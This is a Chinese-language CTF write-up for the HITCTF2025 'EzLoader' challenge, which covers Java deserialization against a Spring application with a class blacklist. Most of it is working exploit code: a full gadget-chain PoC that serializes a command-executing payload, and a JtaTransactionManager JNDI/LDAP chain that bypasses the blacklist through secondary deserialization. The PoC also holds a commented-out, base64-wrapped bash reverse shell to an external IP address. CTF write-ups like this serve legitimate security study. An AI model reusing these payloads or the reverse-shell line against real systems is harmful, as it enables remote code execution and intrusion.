









+++
title= "HITCTF2025 EzLoader"
slug= "hitctf-2025-ezloader"
description= ""
date= "2025-12-19T21:00:47+08:00"
lastmod= "2025-12-19T21:00:47+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

控制器就一个反序列化接口

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.hitctf.util;

import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;

public class SecureObjectInputStream extends ObjectInputStream {
    static String[] blacklist = new String[]{"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", "com.fasterxml.jackson.databind.node.POJONode", "javax.management.BadAttributeValueExpException", "javax.swing.event.EventListenerList", "java.security.SignedObject"};

    public SecureObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String name = desc.getName();

        for(String black : blacklist) {
            if (name.equals(black)) {
                System.out.println("Invalid:" + desc.getName());
                throw new ClassNotFoundException(desc.getName());
            }
        }

        return super.resolveClass(desc);
    }
}
```

过滤了常用反序列化类，spring 依赖，打最新的那条利用链，



还有这个不常见的依赖，`org.springframework.transaction.jta.JtaTransactionManager#readObject`



跟进 JndiTemplate 类发现了有 lookup 方法



看看另外两个方法









都会触发到 lookup 方法

```java
package org.example;

import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.springframework.aop.framework.AdvisedSupport;
import sun.misc.Unsafe;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Vector;

public class SpringPoc {
    public static void main(String[] args) throws Exception {
        patchModule(SpringPoc.class);

//        String host = "154.36.181.12";
//        int port = 9999;
//        String cmd = "bash -i >& /dev/tcp/" + host + "/" + port + " 0>&1";
//        String base64Cmd = java.util.Base64.getEncoder().encodeToString(cmd.getBytes());
//        String finalCmd = "bash -c {echo," + base64Cmd + "}|{base64,-d}|{bash,-i}";

        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.makeClass("Evil" + System.nanoTime());
        evilClass.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");");
        //evilClass.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"" + finalCmd + "\");");

        byte[] evilBytes = evilClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        CtClass stubClass = pool.makeClass("Stub" + System.nanoTime());
        byte[] stubBytes = stubClass.toBytecode();

        setFieldValue(templates, "_bytecodes", new byte[][]{evilBytes, stubBytes});
        setFieldValue(templates, "_name", "Pwnd");
        setFieldValue(templates, "_transletIndex", 0);


        CtClass nodeClass = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = nodeClass.getDeclaredMethod("writeReplace");
        nodeClass.removeMethod(writeReplace);
        nodeClass.toClass();

        Object proxyTemplates = getPOJONodeStableProxy(templates);
        POJONode jsonNode = new POJONode(proxyTemplates);

        EventListenerList listenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Field editsField = getField(undoManager.getClass(), "edits");
        editsField.setAccessible(true);
        Vector edits = (Vector) editsField.get(undoManager);
        edits.add(jsonNode);
        setFieldValue(listenerList, "listenerList", new Object[]{Class.class, undoManager});

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(listenerList);
        oos.close();

        String base64Str = Base64.getEncoder().encodeToString(baos.toByteArray());
        System.out.println(base64Str);
        try (FileOutputStream fos = new FileOutputStream("payloadx.ser")) {
            fos.write(baos.toByteArray());
        }

//        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
//        ObjectInputStream ois = new ObjectInputStream(bais);
//        ois.readObject();
    }

    private static void patchModule(Class<?> clazz) {
        try {
            Unsafe unsafe = getUnsafe();
            Module javaBaseModule = Object.class.getModule();
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.putObject(clazz, offset, javaBaseModule);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    private static Unsafe getUnsafe() throws Exception {
        Field f = Unsafe.class.getDeclaredField("theUnsafe");
        f.setAccessible(true);
        return (Unsafe) f.get(null);
    }

    private static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;
        while (clazz != null) {
            try {
                field = clazz.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e) {
                clazz = clazz.getSuperclass();
            }
        }
        return field;
    }

    private static void setFieldValue(Object obj, String field, Object val) throws Exception {
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }

    private static Object getPOJONodeStableProxy(Object templatesImpl) throws Exception {
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);

        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);

        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);

        Object proxyObj = Proxy.newProxyInstance(
                clazz.getClassLoader(),
                new Class[]{Templates.class, Serializable.class},
                handler
        );
        return proxyObj;
    }
}
//--add-opens=java.base/sun.nio.ch=ALL-UNNAMED --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=jdk.unsupported/sun.misc=ALL-UNNAMED --add-opens java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.base/java.lang.reflect=ALL-UNNAMED
```

利用 JNDI 打二次反序列化绕过黑名单，使用 JNDIMAP 进行自定义反序列化

```bash
java -jar JNDIMap-0.0.4.jar -i 0.0.0.0 -p 8000
```

本地测试下试试

```java
package org.example;

import org.springframework.transaction.jta.JtaTransactionManager;

import javax.naming.InitialContext;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class JtaTransactionManagerPOC {
    public static void main(String[] args) throws Exception {
//        InitialContext initialContext = new InitialContext();
//        initialContext.lookup("ldap://127.0.0.1:1389/Deserialize/FromFile/payloadx.ser");

        JtaTransactionManager manager = new JtaTransactionManager();
        manager.setUserTransactionName("ldap://127.0.0.1:1389/Deserialize/FromFile/payloadx.ser");

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(manager);
        //System.out.println(Base64.getEncoder().encodeToString(baos.toByteArray()));

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }
}
```





使用的 pom.xml

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>com.hitctf</groupId>
    <artifactId>ezLoader</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>17</maven.compiler.source>
        <maven.compiler.target>17</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <spring.boot.version>2.6.0</spring.boot.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
            <version>${spring.boot.version}</version>
        </dependency>

        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-tx</artifactId>
            <version>5.3.39</version>
        </dependency>

        <dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>javax.transaction-api</artifactId>
            <version>1.3</version>
        </dependency>

        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.30.2-GA</version>
        </dependency>

        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-dbcp2</artifactId>
            <version>2.13.0</version>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter</artifactId>
            <version>${spring.boot.version}</version>
        </dependency>
    </dependencies>

</project>
```

但是这应该不是预期，而且 docker 的镜像也是老的抠脚的那种，估计出了很久了，预期将军觉得是打 JDBC 反序列化


> https://baozongwi.xyz/p/spring-native-deserialization-chains/
>
> https://github.com/X1r0z/JNDIMap/blob/main/USAGE.md
